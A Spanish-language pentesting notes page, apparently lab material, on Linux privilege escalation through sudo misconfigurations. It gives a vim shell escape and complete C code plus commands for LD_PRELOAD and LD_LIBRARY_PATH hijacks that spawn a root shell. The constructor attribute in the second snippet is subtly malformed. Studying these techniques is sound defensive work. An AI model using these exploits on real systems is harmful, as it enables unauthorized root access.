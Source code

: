 # Sudo

## Shell escape sequences

Enumere los programas que Sudo permite ejecutar a su usuario:

sudo -l&#x20;

Ejemplo en la maquina :

**`NOPASSWD: /usr/bin/vim (root)`**

Visitar [GTFOBins](https://gtfobins.github.io/)

Como objetivo probare a vim para poder ser root.

Se puede ejecutar

`sudo vim -c ':!/bin/sh'`

O entra en vim y ejecutar `!/bin/sh`&#x20;

Salimos de vim y ya somos root.

## Environment Variables

implica aprovechar la configuración de sudo para heredar ciertas variables de entorno del usuario que ejecuta el comando. Esto puede permitir que un atacante modifique variables de entorno específicas para ejecutar comandos con privilegios elevados que de otro modo no tendría permiso para ejecutar.

Sudo se puede configurar para heredar ciertas variables de entorno del entorno del usuario.

`sudo -l`

`env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH`

`LD_PRELOAD y LD_LIBRARY_PATH` se heredan del entorno del usuario.

`LD_PRELOAD` carga un objeto compartido antes que otros cuando se ejecuta un programa. `LD_LIBRARY_PATH` proporciona una lista de directorios donde se buscan primero las bibliotecas compartidas.

Cree un objeto compartido utilizando el código ubicado en /home/user/tools/sudo/preload.c:

**Código**&#x20;

```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setresuid(0,0,0); 
    system("/bin/bash -p"); 
} 

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Ejecute uno de los programas que se le permite ejecutar a través de sudo, mientras establece la variable de entorno LD\_PRELOAD en la ruta completa del nuevo objeto compartido:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

Debería aparecer un shell de root. Salga del shell antes de continuar. Dependiendo del programa que elija, es posible que también necesite salir de este.

Ejecute ldd contra el archivo de programa apache2 para ver qué bibliotecas compartidas utiliza el programa:&#x20;

`ldd /usr/sbin/apache2`

Cree un objeto compartido con el mismo nombre que una de las bibliotecas enumeradas (libcrypt.so.1) utilizando el código ubicado en library\_path.c:

```
library_path.c 
#include <stdio.h> 
#include <stdlib.h> 
static void hijack() 
attribute((constructor)); 

void hijack() { 
    unsetenv("LD_LIBRARY_PATH"); 
    setresuid(0,0,0); system("/bin/bash -p"); 
} 
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2

```

